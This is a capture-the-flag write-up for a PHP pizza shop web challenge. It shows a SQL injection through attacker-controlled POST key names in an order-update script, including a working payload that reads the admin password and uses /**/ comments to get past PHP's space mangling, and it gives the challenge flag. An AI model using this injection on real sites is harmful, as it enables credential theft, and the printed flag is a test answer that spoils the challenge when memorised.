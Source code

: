 # Pizza Shop

## Analysis

The problem gives you the code for a pizza shop website written in PHP. Once started via Docker, the website is available on port 8000. We are presented with a login/register screen where we can create a local account. Once logged in, we are presented with a dashboard where we can place a new order, and a button that takes us to see previous orders. If any orders have been placed, we will have the option to edit them.

## Solution

By analyzing the code, we will notice the presence of two `.php` files that manage the creation and updating of orders: [`place_order.php`](Source/src/place_order.php) and [`update_order.php`](Source/src/update_order.php). In the first file we will see that the creation of an SQL query for inserting the new order. This is done using proper parameter bindings, so it does not seem vulnerable to SQL Injection. However, when we look at the code for updating an order, we will notice a particularly interesting snippet of the query building:

```php
foreach($_POST as $key => $value) {
    $new_order[$key] = $value;
}

// [...]

foreach ($new_order as $key => $value) {
    if($order[$key] != $new_order[$key]) {
        $sql .= ", $key = ?";
        array_push($updated_data, $new_order[$key]);
        $updated_data_types .=  gettype($new_order[$key]) == 'double' ? 'd': 's'; 
    }
}
```

In this snippet we can see that the code is taking all of the keys sent as part of the POST request and adding them to the `$new_order` object. Furthermore, for each key in this object, if the provided value does not match the value in the original order, some unsafe string concatenation is going to happen with the value of the key. In other words, while the intended behavior is to have a key, say, `instructions`, and to update the SQL template like `instructions = ?` so that a parameter value can be bound, nothing stops us from adding more content to the name of the key.

First, we need to place an order. We will do so by sending the following parameters as a request:

```python
{
    "pizza_id": "1,2,3,4",
    "quantity": "1,0,0,0",
    "instructions": "",
}
```

This is saying we will have a single pizza of the type that has ID = 1. This will give us an order ID. We can now update the same order, but this time we will be sending the following injection as a key:

```python
injection = "instructions=SELECT password FROM users WHERE username = 'admin',order_id"

content = {
    "pizza_id": "1,2,3,4",
    "quantity": "1,0,0,0",
    "instructions": "",
    injection: order_id,
}
```

If everything goes according to plan, the server will append the key `"instructions=SELECT password FROM users WHERE username = 'admin',order_id"` to the SQL query it builds, causing it to retrieve the admin user's password. We are including the `,order_id` portion to the end to make sure that the number of parameters matches what is getting bound by the server. To make sure we don't change too much, we are passing the original value for the `order_id`.

We would expect the executed query should be similar to:

```sql
UPDATE orders SET order_date = CURRENT_TIMESTAMP, instructions=(SELECT password FROM users WHERE username = 'admin'),order_id = 1 WHERE order_id = 1
```

You will notice, however, that the executed query is more like this (notice the `_` characters):

```sql
UPDATE orders SET order_date = CURRENT_TIMESTAMP, instructions=(SELECT_password_FROM_users_WHERE_username_=_'admin'),order_id = 1 WHERE order_id = 1
```

This happens because the PHP server will replace our spaces with `_` to avoid confusion between keys and values (as in, to stop exactly what we are trying to do). Not only does this change the value of key, it makes the query fail as well. We need to replace the spaces with another character that indicates to SQL that we want to separate the words - also known as 'to cause tokenization' - while not being modified by PHP. We can achieve that by sending `/**/`. This gets treated as a comment by SQL which, despite being empty, causes tokenization.

Therefore, our injection should be:

```sql
UPDATE orders SET order_date = CURRENT_TIMESTAMP, instructions=(SELECT/**/password/**/FROM/**/users/**/WHERE/**/username/**/=/**/'admin'),order_id = 1 WHERE order_id = 1
```

Now the query should execute successfully. Note that the `instructions` value will *NOT* change on the current page. You will need to navigate to the `view_orders.php` page to see the updated value. (I, embarassingly, spent way too much time trying to figure out what was wrong with my injection while the only problem was that I was not seeing the updated value).

The value of the instructions on the order will be the admin user's password. You can now login as admin using that password and you will be greeted with the flag:

`PWNSEC{I_D0NT_L1K3_SP4C3S_1N_SQL}`